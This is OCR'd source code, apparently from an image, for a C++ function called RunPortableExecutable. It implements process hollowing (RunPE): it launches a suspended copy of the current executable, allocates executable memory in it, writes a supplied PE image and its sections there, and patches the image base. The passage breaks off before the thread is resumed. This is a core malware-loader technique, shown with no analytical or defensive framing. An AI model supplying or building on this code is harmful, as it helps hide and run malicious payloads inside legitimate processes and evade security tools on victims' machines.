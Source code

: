 
int RunPortableExecutable(void* Image)
{
    IMAGE_DOS_HEADER* DOSHeader; // For Nt DOS Header symbols
    IMAGE_NT_HEADERS* NtHeader; // For Nt PE Header objects &amp; symbols
    IMAGE_SECTION_HEADER* SectionHeader;

    PROCESS_INFORMATION PI;
    STARTUPINFOA SI;

    CONTEXT* CTX;

    DWORD* ImageBase; //Base address of the image
    void* pImageBase; // Pointer to the image base

    int count;
    char CurrentFilePath[1024];

    DOSHeader = PIMAGE_DOS_HEADER(Image); // Initialize Variable
    NtHeader = PIMAGE_NT_HEADERS(DWORD(Image) + DOSHeader-&gt;e_lfanew); // Initialize

    GetModuleFileNameA(0, CurrentFilePath, 1024); // path to current executable

    if (NtHeader-&gt;Signature == IMAGE_NT_SIGNATURE) // Check if image is a PE File.
    {
        ZeroMemory(&amp;PI, sizeof(PI)); // Null the memory
        ZeroMemory(&amp;SI, sizeof(SI)); // Null the memory

        if (CreateProcessA(CurrentFilePath, NULL, NULL, NULL, FALSE,
            CREATE_SUSPENDED, NULL, NULL, &amp;SI, &amp;PI)) // Create a new instance of current
            //process in suspended state, for the new image.
        {
            // Allocate memory for the context.
            CTX = LPCONTEXT(VirtualAlloc(NULL, sizeof(CTX), MEM_COMMIT, PAGE_READWRITE));
            CTX-&gt;ContextFlags = CONTEXT_FULL; // Context is allocated

            if (GetThreadContext(PI.hThread, LPCONTEXT(CTX))) //if context is in thread
            {
                // Read instructions
                ReadProcessMemory(PI.hProcess, LPCVOID(CTX-&gt;Ebx + 8), LPVOID(&amp;ImageBase), 4, 0);

                pImageBase = VirtualAllocEx(PI.hProcess, LPVOID(NtHeader-&gt;OptionalHeader.ImageBase),
                    NtHeader-&gt;OptionalHeader.SizeOfImage, 0x3000, PAGE_EXECUTE_READWRITE);

                // Write the image to the process
                WriteProcessMemory(PI.hProcess, pImageBase, Image, NtHeader-&gt;OptionalHeader.SizeOfHeaders, NULL);

                for (count = 0; count &lt; NtHeader-&gt;FileHeader.NumberOfSections; count++)
                {
                    SectionHeader = PIMAGE_SECTION_HEADER(DWORD(Image) + DOSHeader-&gt;e_lfanew + 248 + (count * 40));

                    WriteProcessMemory(PI.hProcess, LPVOID(DWORD(pImageBase) + SectionHeader-&gt;VirtualAddress),
                        LPVOID(DWORD(Image) + SectionHeader-&gt;PointerToRawData), SectionHeader-&gt;SizeOfRawData, 0);
                }
                WriteProcessMemory(PI.hProcess, LPVOID(CTX-&gt;Ebx + 8),
                    LPVOID(&amp;NtHeader-&gt;OptionalHeader.ImageBase), 4, 0);

